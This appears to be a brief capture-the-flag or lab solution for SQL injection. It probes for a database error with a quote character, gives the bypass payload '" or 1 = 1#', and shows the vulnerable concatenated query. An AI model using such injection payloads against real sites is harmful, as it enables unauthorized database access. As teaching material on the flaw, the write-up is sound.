 # 1st step:

Try to make the page returning a database error by typing ```' or "```.
That will prove that the page is vulnerable.

# 2nd step:

Solution: ```" or 1 = 1#```

> "#" symbol comments the following text until the end of the line. 

Query must be something like:

```SELECT * FROM table WHERE column =" + USER_INPUT + ";```